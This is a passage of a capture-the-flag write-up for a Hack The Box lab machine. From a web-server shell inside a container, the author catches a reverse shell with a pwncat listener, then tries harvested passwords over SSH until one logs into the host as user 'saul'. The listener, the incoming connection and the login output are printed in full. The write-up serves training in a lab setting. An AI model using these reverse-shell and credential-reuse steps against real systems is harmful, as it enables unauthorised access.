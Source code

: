As you can see, the host machine has **SSH opened**!

**Let's try to SSH into the host machine with the obtained credentials from `bolt-administration.omv`:**
```shell
www-data@c468eed9f9fc:/var/www/talkative.htb/bolt/public$ ssh matt@172.17.0.1
Pseudo-terminal will not be allocated because stdin is not a terminal.
Host key verification failed.
```

Hmm... Looks like we need a full TTY shell...

**After trying different methods, I have to use `pwncat-cs`...**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.12|16:36:24(HKT)]
└> pwncat-cs -l -p 53
/home/siunam/.local/lib/python3.11/site-packages/paramiko/transport.py:178: CryptographyDeprecationWarning: Blowfish has been deprecated
  'class': algorithms.Blowfish,
[16:36:39] Welcome to pwncat 🐈!                                                            __main__.py:164
[...]
```

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.12|16:37:10(HKT)]
└> curl http://talkative.htb/

```

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.12|16:36:24(HKT)]
└> pwncat-cs -l -p 53
/home/siunam/.local/lib/python3.11/site-packages/paramiko/transport.py:178: CryptographyDeprecationWarning: Blowfish has been deprecated
  'class': algorithms.Blowfish,
[16:36:39] Welcome to pwncat 🐈!                                                            __main__.py:164
[16:37:10] received connection from 10.10.11.155:53022                                           bind.py:84
[16:37:12] 10.10.11.155:53022: registered new host w/ db                                     manager.py:957
(local) pwncat$
(remote) www-data@c468eed9f9fc:/var/www/talkative.htb/bolt/public$ 
(remote) www-data@c468eed9f9fc:/var/www/talkative.htb/bolt/public$ ssh matt@172.17.0.1
[...]
matt@172.17.0.1's password: 
Permission denied, please try again.
```

**Then, after some trial and error, I found that user `saul`'s password worked!**
```shell
(remote) www-data@c468eed9f9fc:/var/www/talkative.htb/bolt/public$ ssh saul@172.17.0.1
[...]
saul@172.17.0.1's password: 
[...]
saul@talkative:~$ whoami; hostname; id; ip a
saul
talkative
uid=1000(saul) gid=1000(saul) groups=1000(saul)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:3c:10 brd ff:ff:ff:ff:ff:ff
```
